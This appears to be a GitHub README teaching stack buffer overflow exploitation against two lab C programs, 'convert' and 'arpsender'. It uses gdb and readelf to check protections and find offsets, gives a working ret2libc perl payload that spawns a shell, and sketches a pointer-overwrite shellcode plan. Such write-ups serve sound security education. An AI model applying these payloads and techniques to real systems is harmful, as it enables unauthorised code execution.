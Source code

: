 # buffer-overflow
exploit vulnerable c/c++ programms with buffer overflow attacks
___
#### `convert` C program
###### Determine protections enabled
* Canaries between buffers and control data in the stack
```
$ gdb convert
(gdb) disas main
   Dump of assembler code for function main:
   0x0804869c <+0>:	push   %ebp
   .........  ....: ....   ....
   .........  ....: ....   ....
```
`.........  ....: call 0x80484c0 <__stack_chk_fail@plt>` in the procedure epilogue indicates the presence of a canary, but in this case this mechanism wasn't enabled.
* Executable Stack Protection
```
$ readelf -l convert
Elf file type is EXEC (Executable file)
Entry point 0x80485b0
There are 8 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00100 0x00100 R E 0x4
  ....           ......   ......     ......     ......  ......  . . ...
```
`GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4` this line indicated that the Stack is Read-Write but not executable, so we have one defensive mechanism to bypass.

###### Determine the size of the buffer to override the instruction pointer `$eip`
This is the line which can be used for overflowing the `date` buffer:
```
strcpy(date, argv[2]);
```
Let's explore the memory!
```
$ gdb convert
(gdb) run 1 $(perl -e 'print "A"x744 . "B"x4 . "C"x4 . "D"x4')
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info registers
    eax            0x0	0
    ecx            0xbfffef78	-1073746056
    edx            0xb7fd3360	-1208143008
    ebx            0x41414141	1094795585
    esp            0xbffff2c0	0xbffff2c0
    ebp            0x43434343	0x43434343
    esi            0x0	0
    edi            0x42424242	1111638594
    eip            0x44444444	0x44444444
    eflags         0x10296	[ PF AF SF IF RF ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
```
So the size of the buffer to overwrite the `$eip` is 756.
###### Sketch memory layout and attack plan
<img src="https://github.com/igavriil/buffer-overflow/blob/master/convert_attact.png" width="500" height="360" />
###### Find the addresses needed for the attack
``` 
$ gdb convert
(gdb) break main
(gdb) run
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7eadc30 <system>
```
**system() address**: `0xb7eadc30`
```
(gdb) find &system,+9999999,"/bin/sh"  
0xb7fae194
```
**'/bin/sh' address**: `0xb7fae194`
```
(gdb) print exit
$1 = {<text variable, no debug info>} 0xb7ea1270 <exit>
```
**exit() address**: `0xb7ea1270`
###### Create your inputs according to the sketch and run the programm
```
$ ./convert 1 $(perl -e 'print "\x90"x752 .  "\x30\xdc\xea\xb7"  . "\x70\x12\xea\xb7" . "\x94\xe1\xfa\xb7"')
$ (unlocked shell)
````
___
#### `arpsender` C program
###### Determine protections enabled
* Canaries between buffers and control data in the stack
```
$ gdb convert
(gdb) disas main
   Dump of assembler code for function main:
   0x08048793 <+0>:    	push   %ebp
   .........  ....:     ....   ....
   .........  ....:     ....   ....
   0x080488e6 <+339>:	call   0x80484c0 <__stack_chk_fail@plt>
   0x080488eb <+344>:	leave  
   0x080488ec <+345>:	ret
```
`.........  ....: call 0x80484c0 <__stack_chk_fail@plt>` in the procedure epilogue indicates the presence of a canary. So we have one defensive mechanism to bypass.
* Executable Stack Protection
```
$ readelf -l convert
Elf file type is EXEC (Executable file)
Entry point 0x8048550
There are 8 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00100 0x00100 R E 0x4
  ....           ......   ......     ......     ......  ......  . . ...
```
`GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE  0x4` this line indicated that the Stack is Read-Write and executable, so this defensive mechanism is disabled.

###### Determine the strategy to overwrite the `$eip` pointer
This are the lines/variables that will be used to exploit the program:
````
memcpy(hwaddr.addr, packet + ADDR_OFFSET, hwaddr.len);
memcpy(hwaddr.hwtype, packet, 4);

````
Let's explore the memory!

````
(gdb) break print_address
(gdb) run packet.txt
(gdb) x/x &i
0xbffff454:	0x0804834c
(gdb) x/x &hwaddr.len
0xbffff458:	0xb7ee25d0
(gdb) x/x &hwaddr.addr
0xbffff459:	0xf3b7ee25
(gdb) x/x &hwaddr.hwtype
0xbffff4dc:	0x00000000
(gdb) x/x &hwaddr.prototype
0xbffff4e0:	0xbffff598
(gdb) x/x &hwaddr.oper
0xbffff4e4:	0xb7ff59c0
(gdb) x/x &hwaddr.protolen
0xbffff4e8:	0x00000065
(gdb) info frame
Stack level 0, frame at 0xbffff500:
 eip = 0x804864e in print_address (arpsender.c:24); saved eip 0x80488c5
 called by frame at 0xbffff5a0
 source language c.
 Arglist at 0xbffff4f8, args: packet=0x804a008 "\324ò\241\002"
 Locals at 0xbffff4f8, Previous frame's sp is 0xbffff500
 Saved registers:
  ebp at 0xbffff4f8, eip at 0xbffff4fc
````
###### Sketch memory layout
<img src="https://github.com/igavriil/buffer-overflow/blob/master/arpsender_sketch.png" width="300" height="440" />
###### Deeper understand of memory and attack plan
* The distance between `char hwaddr.addr[128]` and `char* hwaddr.hwtype` is `131 bytes`(due to big endian convention)  so we need `135 bytes` overflow on `hwaddr.addr[128]` to overwrite the `4 bytes` of the pointer.
* The `$eip` pointer is located at `0xbffff4fc` under gdb environment.

___
* Overflow `hwaddr.addr[128]` buffer with `135 bytes` having the last `4 bytes` store the address of `$eip` pointer. In other words make the pointer `hwaddr.hwtype` pointer to point at the `$eip`.
* Then using the expression `memcpy(hwaddr.hwtype, packet, 4);` we are writing at the `$eip` pointer. So the variable `packet` should start with an address that points to a location of the memory where the beggining of the shellcode is stored or (better) at a location where a preceding to the shellcode `NOP(\x90)` is stored. 

___
Let us recall some crusial code to determine the form of the input:
```
  hwaddr.len = (shsize_t) *(packet + ADDR_LENGTH_OFFSET);
  memcpy(hwaddr.addr, packet + ADDR_OFFSET, hwaddr.len);
  memcpy(hwaddr.hwtype, packet, 4);
```
* The number of bytes to be copied to `hwaddr.addr` from the `packet` is determined by the `hwaddr.len` variable. This variable is read from `*(packet + ADD_LENGTH_OFFSET) -> *(packet + 4)` so the 5th byte of the input `packet`.
So in the 5th byte of the input `packet`, the number `135` should be placed, or in HEX `\x87`.
* The bytes to be copied to `hwaddr.addr` from the packet are read from `packet + ADDR_OFFSET -> packet + 8` so we need to place our shell code from that place and after.
###### Sketch attack plan
<img src="https://github.com/igavriil/buffer-overflow/blob/master/arpsender_attack.png" width="650" height="200" />

